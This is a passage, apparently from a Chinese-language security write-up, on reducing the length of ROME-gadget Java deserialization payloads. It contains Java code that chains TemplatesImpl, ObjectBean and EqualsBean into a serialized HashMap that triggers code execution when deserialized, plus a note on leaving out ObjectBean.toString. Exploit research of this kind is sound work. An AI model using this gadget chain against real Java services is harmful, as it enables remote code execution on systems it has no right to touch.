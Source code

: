 ```java
            clazz.writeFile();
            return templates;
        } catch (InstantiationException e) {
            e.printStackTrace();
        } catch (Exception e) {
            e.printStackTrace();
        }
        return templates;
    }
    public static void setFieldValue(Object obj, String fieldname, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception {

        TemplatesImpl obj = getTemplatesImpl();
        ObjectBean  objb = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "1"));
        HashMap map = new HashMap();
        map.put(objb,"1");
        ObjectBean exp = new ObjectBean(Templates.class, obj);
        EqualsBean eq = new EqualsBean(ObjectBean.class, exp);
        setFieldValue(objb,"_equalsBean",eq);
        setFieldValue(objb,"_toStringBean",null);
        setFieldValue(objb,"_cloneableBean",null);

        setFieldValue(exp,"_equalsBean",null);

        ByteArrayOutputStream baout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(baout);
        oout.writeObject(map);
        System.out.println(new String(Base64.encode(baout.toByteArray())).length());
        ByteArrayInputStream bain = new ByteArrayInputStream(baout.toByteArray());
        ObjectInputStream oin = new ObjectInputStream(bain);
        oin.readObject();
    }
}
```

### 方法3

省略 ObjectBean.toString()

这里大师傅通过调试与分析，得到了 `ObjectBean#toString` 是可有可无的这一结论，调试的详情如下，挺有参考价值。

```java
public class dome {
    public static void main(String[] args) throws Exception{
        ObjectBean objectBean = new ObjectBean(String.class, "x");
        Map hashMap = new HashMap();
        hashMap.put(objectBean, "x");

        // 执行序列化与反序列化，并且返回序列化数据
        ByteArrayOutputStream baout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(baout);
        oout.writeObject(hashMap);
        System.out.println(new String(Base64.encode(baout.toByteArray())).length());
        ByteArrayInputStream bain = new ByteArrayInputStream(baout.toByteArray());
        ObjectInputStream oin = new ObjectInputStream(bain);
        oin.readObject();
    }
```
